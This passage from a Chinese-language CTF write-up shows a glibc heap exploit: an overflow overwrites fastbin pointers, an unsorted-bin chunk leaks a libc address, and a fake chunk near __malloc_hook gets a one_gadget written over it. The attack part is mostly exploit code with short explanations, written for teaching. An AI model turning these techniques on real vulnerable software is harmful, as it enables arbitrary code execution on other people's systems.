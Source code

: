## 构造payload
### 简单的unsortedbin attack
```python
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)

free(1)
free(2)
```
申请两个free chunk来绕过double free的检查

```python
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)
```
溢出修改fastbin的fd指针，让我们可以malloc到我们想要的chunk

```python
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)
alloc(0x10)
alloc(0x10)
```
依然是溢出修改我们想要malloc到的这个unsorted bin的size，绕过fast bin malloc的检查，然后申请回来。   

此时我们的第2个和第4个结构体的heap ptr都指向了我们的unsorted bin chunk

```python
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)
alloc(0x80)
free(4)
show(2)
```
把size改回去然后把这个chunk放到unsorted bin中，此时我们就有了一个在unsorted bin中的malloc chunk(因为第二个结构体还指向这个chunk捏)  

再打印这个chunk的内容就是main arena的地址了

### 准备arbitrary alloc

```python
alloc(0x60)
free(4)
payload = p64(libcbase_addr+0x3c4aed)  
fill(2, payload)

alloc(0x60)
alloc(0x60)

payload = 0x13 * b'a'  
payload += p64(libcbase_addr+0x4527a)
fill(6, payload)
```
再用一次上面的手法，用第二个chunk越界往第四个chunk的fd写`劫持的地址`，然后再把这个chunk申请回来往_malloc_hook上面写one gadget   
